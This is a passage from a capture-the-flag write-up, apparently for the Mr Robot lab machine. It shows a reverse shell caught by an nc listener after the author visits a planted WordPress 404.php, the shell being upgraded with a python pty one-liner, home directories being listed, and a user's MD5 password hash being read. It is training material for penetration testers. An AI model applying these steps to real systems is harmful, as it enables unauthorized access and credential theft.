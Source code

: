 Now we can trigger the reverse shell by just visiting the following URL:

```shell
https://10.10.22.59/404.php
```

After visiting the URL above, we will get a response on our nc listener:

```shell
listening on [any] 8443 ...
connect to [10.11.113.193] from (UNKNOWN) [10.10.22.59] 60119
SOCKET: Shell has connected! PID: 2989
whoami
daemon
```

Now we just need to upgrade our shell entering the following command:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$
```

### Finding the password of the user robot
The first thing I always do is trying to check the /home folder to see if I can access a flag or files of any user, or just enumerate the available users.

Using the following command we were able to find the user robot:

```shell
ls -al /home
```

```shell
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
```

Now we can try to check the files inside the folder of the user robot:

```shell
# Check the files inside robot folder
ls -al /home/robot

# It seems we cant get the second key, permission is denied
cat /home/robot/key-2-of-3.txt
cat: /home/robot/key-2-of-3.txt: Permission denied

# But we can get this md5 hash, which seems to be the password of the user robot
cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
